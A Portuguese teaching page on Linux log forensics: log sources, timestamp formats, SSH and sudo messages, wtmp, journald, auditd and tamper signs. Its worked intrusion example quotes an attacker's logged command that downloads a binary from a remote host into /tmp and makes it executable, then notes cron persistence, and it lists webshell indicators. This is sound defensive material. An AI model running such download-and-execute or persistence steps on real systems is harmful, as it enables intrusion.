

# Logs e Autenticação no Linux

> **Objetivo pedagógico:** interpretar os logs do Linux (syslog, journald, auditd, wtmp e logs de serviços) para reconstruir autenticações, elevações de privilégio, execuções e alterações administrativas, reconhecendo as limitações de formato, de tempo e de integridade.

## 1. Principais fontes de log

| Fonte | Local | Conteúdo |
|---|---|---|
| Syslog geral | `/var/log/syslog` (Debian) ou `/var/log/messages` (RHEL) | Mensagens de sistema e serviços |
| Autenticação | `/var/log/auth.log` (Debian) ou `/var/log/secure` (RHEL) | SSH, sudo, su, PAM, criação de contas |
| Kernel | `/var/log/kern.log`, `dmesg` | Módulos, dispositivos USB, erros |
| Cron | `/var/log/cron` (RHEL) ou syslog (Debian) | Execuções agendadas |
| journald | `/var/log/journal/` (persistente) ou `/run/log/journal/` (volátil) | Logs estruturados de serviços e do sistema |
| Auditoria | `/var/log/audit/audit.log` | Chamadas de sistema e eventos configurados no auditd |
| Sessões | `/var/log/wtmp`, `/var/log/btmp`, `/var/log/lastlog`, `/var/run/utmp` | Logons, falhas e último login (formato binário) |
| Pacotes | `/var/log/dpkg.log`, `/var/log/apt/history.log`, `/var/log/dnf.log`, `/var/log/yum.log` | Instalações e remoções |
| Servidores web | `/var/log/apache2/`, `/var/log/httpd/`, `/var/log/nginx/` | Requisições, erros e web shells |
| Banco de dados | `/var/log/mysql/`, `/var/log/postgresql/` | Acessos e consultas, conforme a configuração |
| Contêineres | `/var/lib/docker/containers/<id>/<id>-json.log` | Saída dos contêineres |

## 2. Formatos de tempo

| Formato | Característica | Cuidado |
|---|---|---|
| Syslog tradicional (RFC 3164) | `Oct 28 13:22:10`: sem ano e sem fuso | Interpretar com o fuso do sistema e o ano pelo contexto; atenção a virada de ano |
| RFC 3339 e ISO 8601 (rsyslog de alta precisão) | `2026-10-28T13:22:10.123456-03:00` | Contém deslocamento de fuso |
| journald | Horário de relógio (microssegundos), horário monotônico e identificador de boot | O horário monotônico ajuda a detectar saltos de relógio |
| auditd | Época Unix com milissegundos e número de sequência | Converter para UTC |
| wtmp, btmp e lastlog | Binário com época Unix | Usar `last` e `utmpdump` |

Normalize para UTC e registre a configuração do fuso (ver pasta 05).

## 3. Autenticação por SSH

### 3.1 Mensagens típicas do sshd

| Mensagem | Significado |
|---|---|
| `Accepted password for U from IP port N ssh2` | Logon com senha bem-sucedido |
| `Accepted publickey for U from IP ... RSA SHA256:...` | Logon com chave pública (registra a impressão da chave) |
| `Failed password for U from IP` | Senha incorreta |
| `Failed password for invalid user X from IP` | Usuário inexistente |
| `Invalid user X from IP` | Tentativa com usuário inexistente |
| `Connection closed by authenticating user U IP [preauth]` | Conexão encerrada antes da autenticação |
| `pam_unix(sshd:session): session opened for user U` | Sessão aberta |
| `pam_unix(sshd:session): session closed for user U` | Sessão encerrada |
| `Received disconnect from IP` | Desconexão |

A impressão digital da chave no log (`SHA256:...`) permite ligar o acesso a uma entrada de `authorized_keys`.

### 3.2 Consultas úteis

```bash
# Falhas por IP de origem (Debian)
grep "Failed password" /var/log/auth.log | awk '{for(i=1;i<=NF;i++) if($i=="from") print $(i+1)}' | sort | uniq -c | sort -nr | head

# Logons bem-sucedidos e a forma de autenticação
grep -E "Accepted (password|publickey)" /var/log/auth.log

# Em RHEL
grep -E "Accepted|Failed" /var/log/secure

# Ler os logs de uma imagem montada em modo somente leitura
grep -E "Accepted|Failed" /mnt/analise/var/log/auth.log*
zgrep -E "Accepted|Failed" /mnt/analise/var/log/auth.log*.gz
```

## 4. Elevação de privilégio

| Fonte | Padrão | Interpretação |
|---|---|---|
| `sudo` | `sudo: U : TTY=pts/0 ; PWD=/home/U ; USER=root ; COMMAND=/bin/bash` | Comando executado com privilégios, incluindo o diretório e o terminal |
| `su` | `su: (to root) U on pts/0` | Troca de usuário |
| `sudo` com falha | `sudo: U : 3 incorrect password attempts` | Tentativas de elevação sem sucesso |
| PAM | `pam_unix(su:session)` | Abertura e fechamento de sessão |
| `usermod` e `useradd` | `useradd[...]: new user: name=X, UID=...` | Criação de contas |
| `passwd` | `passwd[...]: pam_unix(passwd:chauthtok): password changed for X` | Alteração de senha |

## 5. Sessões binárias (wtmp, btmp e lastlog)

```bash
last -Faiw -f /mnt/analise/var/log/wtmp          # logons e logoffs, com data completa e IP
lastb -Faiw -f /mnt/analise/var/log/btmp         # tentativas de logon falhas (requer privilégios)
lastlog -R /mnt/analise 2>/dev/null              # último login por usuário (verificar opções na versão)
utmpdump /mnt/analise/var/log/wtmp > wtmp.txt    # exportação legível e verificável
```

Indícios de manipulação: arquivos com tamanho zero, lacunas de data, ausência de registros esperados em wtmp quando o auth.log mostra sessões, ou registros que "voltam no tempo".

## 6. journald

```bash
# Ler o journal de uma imagem montada, com horários em UTC e formato ISO
journalctl -D /mnt/analise/var/log/journal --utc -o short-iso --since "2026-10-20" --until "2026-10-31"

# Listar as inicializações registradas
journalctl -D /mnt/analise/var/log/journal --list-boots

# Filtrar por serviço e prioridade
journalctl -D /mnt/analise/var/log/journal -u ssh -p warning

# Exportar em JSON para processamento
journalctl -D /mnt/analise/var/log/journal -o json > journal.json
```

Se o diretório `/var/log/journal` não existir, o journal é volátil e só existe em `/run/log/journal`, que se perde no desligamento: capture-o na coleta ao vivo.

## 7. auditd

O auditd registra chamadas de sistema e eventos definidos por regras, quando configurado.

| Registro | Significado |
|---|---|
| `type=SYSCALL` | Chamada de sistema com usuário, processo e resultado |
| `type=EXECVE` | Argumentos do comando executado |
| `type=USER_LOGIN`, `USER_AUTH`, `USER_START` e `USER_END` | Autenticação e sessões |
| `type=ADD_USER` e `DEL_USER` | Alterações de contas |
| `type=PATH` | Arquivos envolvidos |
| `type=CRED_ACQ` | Aquisição de credenciais |

```bash
ausearch -m EXECVE -ts yesterday -i          # comandos executados (com interpretação de campos)
aureport --auth --summary                     # resumo de autenticações
aureport -x --summary                         # execuções por programa
ausearch -ua 1000 -ts this-week -i            # eventos do UID 1000
```

Verifique se o auditd estava ativo e quais regras existiam (`/etc/audit/rules.d/`); a ausência de eventos pode refletir a ausência de regras.

## 8. Logs de servidores web

| Indício | Interpretação |
|---|---|
| Requisições POST a arquivo recém-criado no webroot | Possível web shell |
| Parâmetros como `cmd=`, `exec=`, `base64` | Execução remota de comandos |
| Muitos 404 em sequência de uma origem | Varredura |
| Requisições a caminhos de administração ou de exploração conhecidos | Tentativas de exploração |
| Mudança de padrão de User-Agent e de origem após o primeiro acesso | Atacante |

```bash
# Acessos a um arquivo suspeito no webroot
grep "/uploads/shell.php" /var/log/nginx/access.log*

# Principais origens por volume
awk '{print $1}' /var/log/nginx/access.log | sort | uniq -c | sort -nr | head
```

## 9. Integridade e adulteração de logs

| Indício | Verificação |
|---|---|
| Arquivo de log vazio ou truncado | Tamanho e carimbos; compare com a rotação (`logrotate`) |
| Ausência de linhas em uma janela de tempo | Comparar com journald, auditd, wtmp e logs remotos |
| Linhas fora de ordem ou com datas inconsistentes | Possível alteração de relógio ou edição |
| Tamanho do journal incompatível | `journalctl --verify` |
| Logs remotos mais completos que os locais | Usar o servidor central (SIEM) como fonte |

```bash
journalctl --verify
ls -la --time-style=full-iso /var/log
```

## 10. Fluxo de reconstrução de um acesso SSH comprometido



## 11. Exemplo prático: reconstrução de intrusão

| Hora (UTC) | Fonte | Evento |
|---|---|---|
| 02:11 a 02:14 | auth.log | 380 `Failed password` de IP 203.0.113.50 contra vários usuários |
| 02:14:20 | auth.log | `Accepted password for deploy from 203.0.113.50` |
| 02:14:35 | wtmp | Sessão `pts/1` da mesma origem |
| 02:15:10 | auth.log | `sudo: deploy : COMMAND=/bin/bash` |
| 02:16:30 | auditd | `EXECVE`: `curl -o /tmp/.x http://198.51.100.9/x` e `chmod +x /tmp/.x` |
| 02:17:00 | cron.log | Nova entrada em `/var/spool/cron/crontabs/root` |
| 02:31:05 | wtmp | Sessão encerrada |
| Conclusão | Força bruta com sucesso, elevação de privilégio, download de binário e persistência por cron; confiança alta com corroboração de firewall e de rede |

## 12. Casos de uso corporativos

- Investigação de acessos indevidos a servidores com SSH exposto.
- Revisão de elevações de privilégio e de contas criadas.
- Análise de web shells em servidores web.

## 13. Normas e frameworks relevantes

- MITRE ATT&CK: T1110 (Brute Force), T1078 (Valid Accounts), T1021.004 (SSH), T1548.003 (Sudo), T1136.001, T1070.002, T1190, T1505.003
- CIS Controls v8.1, controle 8 e safeguards 8.2, 8.4 e 8.5
- ISO/IEC 27002:2022, controles 8.15, 8.16 e 8.17
- NIST SP 800-92; RFC 3164 e RFC 5424 (Syslog)

## 14. Referências

- Kent, K.; Souppaya, M. NIST SP 800-92: Guide to Computer Security Log Management. 2006.
- Gerhards, R. RFC 5424: The Syslog Protocol. 2009.
- Lonvick, C. RFC 3164: The BSD Syslog Protocol. 2001.
- Documentação do systemd (journalctl), do auditd e do OpenSSH.
- Nikkel, B. Practical Linux Forensics. No Starch Press, 2021.
- SANS Institute. FOR577.
